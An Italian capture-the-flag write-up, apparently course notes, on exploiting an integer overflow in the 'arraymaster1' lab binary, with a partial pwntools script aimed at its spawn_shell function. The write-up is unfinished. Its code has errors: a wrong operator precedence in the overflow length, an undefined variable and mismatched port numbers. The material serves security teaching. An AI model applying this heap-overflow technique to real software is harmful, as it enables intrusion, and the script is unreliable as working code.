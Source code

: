 # CTF Buffer Overflow

## Links

[CTF](http://mozart.diei.unipg.it/grilli/cc2020/arraymaster1.zip)

[pwnTools](https://docs.pwntools.com/en/stable/index.html) framework per ctf python

[argparse](https://docs.python.org/3/howto/argparse.html)

[dispensa](http://mozart.diei.unipg.it/grilli/cssi/CybersecuritySistemiIndustriali-02.pdf) pagina 85: buffer overflow

## Attacco

Si può visualizzare il codice sorgente `arraymaster1.c`

il codice ha una funzione `spawn_shell` che può esserci utile, vogliamo innescarla tramite un attacco buffer overflow

i  metodi che scrivono su array sono quelli che possono essere sfruttati per attaccare, in questo caso `init` e `set`

```c
void init (char id, size_t type, size_t l)
```

c'è un controllo per `type`, ma non per `l`, ovvero la lunghezza dell'array che la funzione crea

inseriamo `l` talmente grande da provocare un overflow

```c
size_t size = l * (type / 8);
void* data = malloc(size);
```

il range di size_t (unsigned 8 byte) è da 0 a 0xFFFFFFFFFFFFFFFF

se size è 0xFFFFFFFFFFFFFFFF => size++ = 0

vogliamo imporre che `l * (type / 8) = 0xFFFFFFFFFFFFFFFF + 1`

se `type = 64` => `l * 8 =`

` 0xFFFFFFFFFFFFFFFF + 1` => `l = (0xFFFFFFFFFFFFFFFF + 1) / 8`

abbiamo introdotto una incoerenza, in quanto abbiamo un record che ha un valore molto grande in length, ma al quale non corrisponde un array referenziato da data ugualmente grande. Peggio ancora, a causa dell'overflow a quantità di memoria realmente allocata per l'array interno è nulla.

Quindi possiamo sfruttare l'indice dell'array per referrenziare locazioni di memoria nello heap sottostante

```python
# attack.py

from pwn import *
import argparse

LOCAL_PATH = "./distrib/arraymaster1"

# Se il flag "--remote" è a true andiamo ad attaccare l'eseguibile esposto nella porta 2228 (con docker)
# altrimenti attacchiamo il file locale (eseguito con ./dirb/arraymaster1)
def get_process(is_remote = False):
    if is_remote:
        return remote("127.0.0.1", "22228")
    else:
        return process(LOCAL_PATH)
  

parser = argparse.ArgumentParser()
parser.add_argument("-r", "--remote", help = "Execute on remote server", action = "store_true")
args = parser.parse_args()

# funzione esposta da pwn, permette di leggere vari metadati dall'eseguibile
# ELF = Executable and Linkable Format
e = ELF(LOCAL_PATH)

# otteniamo il processo
p = get_process(args.remote)

# "spawn_shell" è il nome della funzione presente nel programma che vogliamo chiamare
spawn_shell_addr = e.symbols["spawn_shell"]

log.info(f"Address of spawn_shell: {hex(spawn_shell_addr)}")
    
```

`[*] Address of spawn_shell: 0x4009c3`

adesso vogliamo creare uno script che va ad interagire con l'applicativo programmativamente

dobbiamo posizionare il cursore python al posto giusto per poter utilizzare il programma per poi scrivere

alcune funzioni per utilizzare il programma in modo più semplice

``` python
# attack.py

[...]

# legge caratteri e si posiziona alla fine dell'output ("\n> ")
def read_menu(proc):
    proc.recvuntil("\n> ")
    
# manda il comando "list" al programma
def print_list(proc):
    read_menu(proc)
    proc.sendline("list")
    
# chiama il comando init nel programma
def init(proc, arr_id, arr_type, arr_length):
    read_menu(proc)
    proc.sendline(f"init {arr_id} {arr_type} {arr_length}")
    log.info(f"Initializing array '{arr_id}' (Type:int{arr_type}, Length: {arr_length})")
    
# chiama il comando set nel programma
def set_entry(proc, arr_id, arr_index, value):
    read_menu(proc)
    proc.sendline(f"set {arr_id} {arr_index} {value}")
    log.info(f"Setting index #{arr_index} of array '{arr_id}' to value '{value}'' ({hex(value)})")
    
# chiama il comando get nel programma
def get_entry(proc, arr_id, arr_index):
    read_menu(proc)
    proc.sendline(f"get {arr_id} {arr_index}")

	# leggiamo l'output
    out = int(proc.recvline(keepends = False))
    log.info(f"Index #{arr_index} of array '{arr_id}' has value '{out}' ({hex(value)})")

[...]
             
```

ora eseguiamo l'attacco, vogliamo sovrascrivere le funzioni get e set dell'arry B allocando memoria nell'array A

```python
# attack.py

[...]

init(p, "A", 64, (0xFFFFFFFFFFFFFFFF) + 1 / 8)
init(p, "B", 64, 1)

# Entries 0, 1
# assert(get_entry(p, "A", 0) == 1)
# assert(get_entry(p, "A", 1) == 64)
```



### full code

``` python
# attack.py

from pwn import *
import argparse

LOCAL_PATH = "./distrib/arraymaster1"

# Se il flag "--remote" è a true andiamo ad attaccare l'eseguibile esposto nella porta 2228 (con docker)
# altrimenti attacchiamo il file locale (eseguito con ./dirb/arraymaster1)
def get_process(is_remote = False):
    if is_remote:
        return remote("127.0.0.1", "22228")
    else:
        return process(LOCAL_PATH)
  
# legge caratteri e si posiziona alla fine dell'output ("\n> ")
def read_menu(proc):
    proc.recvuntil("\n> ")
    
# manda il comando "list" al programma
def print_list(proc):
    read_menu(proc)
    proc.sendline("list")
    
# chiama il comando init nel programma
def init(proc, arr_id, arr_type, arr_length):
    read_menu(proc)
    proc.sendline(f"init {arr_id} {arr_type} {arr_length}")
    log.info(f"Initializing array '{arr_id}' (Type:int{arr_type}, Length: {arr_length})")
    
# chiama il comando set nel programma
def set_entry(proc, arr_id, arr_index, value):
    read_menu(proc)
    proc.sendline(f"set {arr_id} {arr_index} {value}")
    log.info(f"Setting index #{arr_index} of array '{arr_id}' to value '{value}'' ({hex(value)})")
    
# chiama il comando get nel programma
def get_entry(proc, arr_id, arr_index):
    read_menu(proc)
    proc.sendline(f"get {arr_id} {arr_index}")

	# leggiamo l'output
    out = int(proc.recvline(keepends = False))
    log.info(f"Index #{arr_index} of array '{arr_id}' has value '{out}' ({hex(value)})")
    
parser = argparse.ArgumentParser()
parser.add_argument("-r", "--remote", help = "Execute on remote server", action = "store_true")
args = parser.parse_args()

# funzione esposta da pwn, permette di leggere vari metadati dall'eseguibile
# ELF = Executable and Linkable Format
e = ELF(LOCAL_PATH)

# otteniamo il processo
p = get_process(args.remote)

# "spawn_shell" è il nome della funzione presente nel programma che vogliamo chiamare
spawn_shell_addr = e.symbols["spawn_shell"]

log.info(f"Address of spawn_shell: {hex(spawn_shell_addr)}")

init(p, "A", 8, 100)
```

... da continuare
